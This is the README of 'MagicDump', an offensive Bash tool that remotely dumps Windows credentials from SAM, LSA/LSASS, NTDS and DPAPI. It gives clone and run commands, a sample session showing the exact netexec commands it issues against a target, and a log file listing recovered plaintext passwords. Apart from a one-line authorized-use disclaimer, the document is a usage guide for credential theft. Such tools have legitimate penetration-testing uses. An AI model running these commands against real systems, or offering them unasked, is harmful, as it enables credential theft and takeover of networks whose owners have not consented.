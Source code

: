 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - (Upcoming) Pass-the-Hash and Pass-the-Ticket.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> -p <password>
```

<br>

### Arguments
- `-t`: specify the target IP address
- `-u`: specify the username to authenticate as
- `-p`: specify the password

<br>

For help:
```bash
./MagicDump -h
```

<br>

---

<br>

## Example
```bash
./MagicDump -t 192.168.1.100 -u Administrator -p SuperSecretPass123
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Starting SAM dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --sam > '/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] SAM dump completed successfully. Output saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[INFO] Starting LSA dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --lsa > '/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] LSA dump completed successfully. Output saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[INFO] Starting NTDS dump using ntdsutil...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' -M ntdsutil > '/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] NTDS dump completed successfully. Output saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[LOG] Operation: NTDS, Status: success
[INFO] NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[INFO] Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T13:53:44Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/pascal/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSASS": {
      "status": "success",
      "file_path": "/home/pascal/.magicdump/dumps/LSASS_dump_192.168.1.100.dmp",
      "decrypted_credentials": [
        {
          "username": "Administrator",
          "password": "SuperSecretPass123"
        },
        {
          "username": "User1",
          "password": "Passw0rd!"
        }
      ]
    },
    "NTDS": {
      "status": "failed",
      "error": "Access denied"
    }
  },
  "warnings": [
    "Failed to dump NTDS: Access denied"
  ],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Connecting to target 192.168.1.100 via SMB...",
    "Operation: SAM, Status: success",
    "SAM dump saved to /home/pascal/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Operation: LSASS, Status: success",
    "LSASS dumped and decrypted successfully",
    "Operation: NTDS, Status: failed",
    "Failed to dump NTDS: Access denied",
    "Dumping complete. Logs saved to /home/pascal/.magicdump/logs/report_192.168.1.100_20250104135344.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Hash and Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
